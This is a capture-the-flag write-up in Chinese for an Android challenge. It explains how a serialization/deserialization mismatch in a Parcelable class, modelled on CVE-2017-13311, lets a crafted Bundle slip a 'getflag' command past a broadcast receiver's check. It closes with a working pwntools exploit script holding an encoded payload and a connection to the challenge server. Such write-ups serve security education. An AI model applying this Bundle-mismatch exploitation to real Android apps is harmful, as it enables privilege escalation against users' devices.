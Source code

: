 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)

[attachment](./BroadcastTest.apk)

[docker](./docker.zip)

这道题是一道android pwn
主要的漏洞点是关于序列化与反序列化不匹配的漏洞
这道题主要是由CVE-2017-13311等启发而成

可以阅读https://xz.aliyun.com/t/2364这篇文章，里面详细的说明了类似漏洞的原理

在apk中，首先读取了Base64字符串，base64deocdeo之后将其作为一个Bundle放到广播中，发送给Receiver2
Receiver2接收到广播，取出Bundle，再从Bundle里面取出key为command的值，判断是否为getflag，不是的话就可以继续广播到Receiver3
Receiver3接收到广播，取出Bundle，判断command是否为getflag，是的话就输出Congratulation

正常途径是不能绕过这个判断的，但是在apk中存在一个com.de1ta.broadcasttest.MainActivity$Message类，里面的序列化和反序列化是不匹配的

在Receiver2中判断会command是否为flag会导致Bundle进行反序列化，之后发送给Receiver3的时候会进行序列化，最后Receiver3接收到Bundle后会进行最后一次反序列化

利用漏洞，可以在Receiver2中反序列化的时候获取不到key为command的string，在序列化之后就出现了key为command，值为getflag的string，然后Receiver3的check就能通过，最终获取到flag

下面是exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
